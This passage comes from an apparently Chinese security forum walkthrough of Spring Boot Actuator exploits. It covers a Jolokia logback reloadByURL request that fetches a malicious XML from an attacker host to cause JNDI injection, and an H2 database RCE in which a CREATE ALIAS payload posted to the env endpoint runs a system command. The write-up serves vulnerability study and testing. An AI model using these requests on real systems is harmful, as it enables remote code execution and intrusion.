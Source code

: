 4. 触发rce。  
    这里需要注意jdk版本，jdk版本太高，即使请求了 JNDIObject.class，也反弹不了shell。

```php
　/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/192.168.141.129!/example.xml
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-44dade2d01307769febade7ba775faa1d6a71314.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-5b0c5a6b3a0a1eea9929335e9513699ce96625b2.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-5917b485fac0c5ec7108c202f18a5ae463148955.png)

### 2.5.3 漏洞原理

请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容，再经过解析器解析，设置了外部 JNDI 服务器地址，导致 JNDI 注入，造成 RCE 漏洞。

2.6 h2 database query RCE
-------------------------

### 2.6.1 利用条件

- `/env` 接口可以POST设置属性
- `/restart` 接口可以POST重启应用（存在 spring-boot-starter-actuator 依赖）
- 存在 `com.h2database.h2` 依赖（版本要求暂未知）

### 2.6.2 漏洞复现

1. 设置 spring.datasource.hikari.connection-test-query 属性；

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-f84f591cccdff54feb20286b52b61a835be40cfe.png)

```php
spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```

```php
spring 2.x
POST /actuator/env  
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS **T5** AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String\[\]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```

2. 重启应用  
    ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-eefb380afa5b5a7ac59e69417f81591a6122aae9.png)
